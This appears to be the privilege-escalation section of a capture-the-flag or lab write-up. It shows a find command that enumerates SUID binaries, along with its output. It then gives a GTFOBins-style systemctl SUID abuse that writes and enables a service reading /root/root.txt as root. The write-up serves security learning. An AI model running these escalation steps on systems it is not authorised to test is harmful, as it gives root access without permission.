 
# Privilege Escalation

## Local Enumeration

Now we have access to the machine we can try to search for files that have access to SUID (set owner userId upon execution) allowing us to run a command as root.

We can search for these with the following command:

```shell
find / -user root -perm -4000 -exec ls -ldb {} \;
```

Result:

```shell
***********SNIP**************
find: '/var/lib/polkit-1': Permission denied
find: '/var/lib/apt/lists/partial': Permission denied
find: '/var/lib/php/sessions': Permission denied
find: '/var/spool/cron/atspool': Permission denied
find: '/var/spool/cron/atjobs': Permission denied
find: '/var/spool/cron/crontabs': Permission denied
find: '/var/spool/rsyslog': Permission denied
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
find: '/tmp/systemd-private-722e6bd860fc42afb6a1f1cf303af67a-systemd-timesyncd.service-9ayqc7': Permission denied
find: '/sys/fs/fuse/connections/39': Permission denied
find: '/sys/kernel/debug': Permission denied
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
find: '/root': Permission denied

```

We find an interesting result that has this permission - /bin/systemctl

## Privilege Escalation vector

As /bin/systemctl is available we can use an example from GTFOBins to Privesc to root;

[https://gtfobins.github.io/gtfobins/systemctl/#suid](https://gtfobins.github.io/gtfobins/systemctl/#suid)

```shell
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
